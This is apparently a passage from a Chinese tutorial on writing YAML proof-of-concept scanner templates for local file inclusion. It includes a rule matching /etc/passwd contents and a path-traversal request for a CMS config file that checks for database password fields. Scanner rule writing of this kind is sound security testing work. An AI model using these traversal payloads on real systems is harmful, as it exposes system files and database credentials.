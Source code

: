 ```yaml
    expression: response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
expression: r0()
detail:
  author: test
  links:
    - https://www.test.com
```
上述的内容便没有考虑到其他平台的情况，所以有两种修改方式，第一是再添加一条规则来适配windows，第二是读cms中自带的文件，这样写的简单，且不容易出现问题
```yaml
name: poc-yaml-xxxcms-lfi
manual: true
transport: http
rules:
  r0:
    request:
      cache: true
      method: GET
      path: /index.php?id=../../Conf/config.php
    expression: response.status == 200 && response.body.bcontains(b"<?php") && response.body.bcontains(b"db_name") && response.body.bcontains(b"db_pwd") && response.body.bcontains(b"db_host")
expression: r0()
detail:
  author: test
  links:
    - https://www.test.com

```
